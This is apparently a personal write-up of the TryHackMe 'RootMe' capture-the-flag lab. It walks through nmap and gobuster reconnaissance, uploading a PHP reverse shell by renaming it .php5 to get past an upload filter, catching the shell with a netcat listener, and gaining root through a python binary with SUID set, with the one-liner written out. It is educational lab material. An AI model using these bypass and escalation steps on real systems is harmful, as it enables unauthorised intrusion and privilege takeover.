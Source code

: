 # RootMe - Writeup

## Overview

This is my writeup for the RootMe CTF.  This is a free room of easy difficulty which tests your knowledge of privilege escalation.

## How to Access

I completed this room on TryHackMe.  The link to the room is shown below:

- https://tryhackme.com/room/rrootme

## Steps

#### Reconnaissance

Starting off with an `nmap` scan, I found two open ports: 22 (ssh) and 80 (http) which is running an Apache (v2.4.29) web server:

```
$ sudo nmap -sC -sV -oN initial 10.10.111.70
[sudo] password for v3r4x: 
Sorry, try again.
[sudo] password for v3r4x: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-13 00:27 BST
Nmap scan report for 10.10.111.70
Host is up (0.083s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.91 seconds
```

I then navigated to the website to manually crawl it while `gobuster` ran in the background.  

![homepage](screenshots/1_homepage.png)

`gobuster` indicated a hidden `/panel` directory which contains an file upload.

```
$ gobuster dir -u http://10.10.55.244/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.55.244/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/13 11:57:47 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.55.244/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.55.244/css/]    
/js                   (Status: 301) [Size: 309] [--> http://10.10.55.244/js/]     
/panel                (Status: 301) [Size: 312] [--> http://10.10.55.244/panel/]
```

![file upload](screenshots/2_file_upload.png)

#### Getting a Shell

I attempted to upload a PHP reverse shell that I downloaded from !(here)[http://pentestmonkey.net/tools/web-shells/php-reverse-shell].  I then changed the `$ip` variable to the IP address of my machine and the `$port` variable to `4444`.  However, it appears that the website does not allow `.php` files from being uploaded.  

![upload unsuccessful](screenshots/3_upload_unsuccessful.png)

After some head scratching and playing around with various file extensions, I realised that there are two PHP file extensions: `.php` and `.php5`.  I changed the shell's extension to the latter and the upload was successful:

![upload successful](screenshots/4_upload_successful.png)

I then started a `netcat` session which listens on port 4444, and navigated to the reverse shell I just uploaded using the `/uploads` directory, giving me access to the machine.

```
$ nc -nvlp 4444                                                                 
listening on [any] 4444 ...
connect to [10.9.150.161] from (UNKNOWN) [10.10.55.244] 44316
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:09:40 up 14 min,  0 users,  load average: 0.00, 0.37, 0.61
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.4$ 
```

I used the `find` command in order to find the `user.txt` file:

```
bash-4.4$ find / type f -name user.txt 2> /dev/null
/var/www/user.txt
```

- `-type f`: looking exclusively for files.
- `-name user.txt`: looking for a file with the name "user.txt".
- `2> /dev/null`: error messages are not shown when the command executes.

Looking at the contents of `user.txt` gives the first flag:

```
bash-4.4$ cat /var/www/user.txt
THM{y*************l}
```

#### Privilege Escalation

The instructions state that there is an odd file when searching for SUID permissions.

```
bash-4.4$ find / -user root -perm /4000 2>/dev/null
find / -user root -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

Using the command from the hint, I found that Python has been granted SUID permissions, so I used that to escalate my privileges.  This can be done numerous ways.  In this case, I used the following command:

```
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
cat /root/root.txt
THM{p******************n}
```

And that's it!

## Summary and Feedback

Overall, this is a very easy room.  If you are a beginner and want to learn a bit of privilege escalation, this is ideal for you!

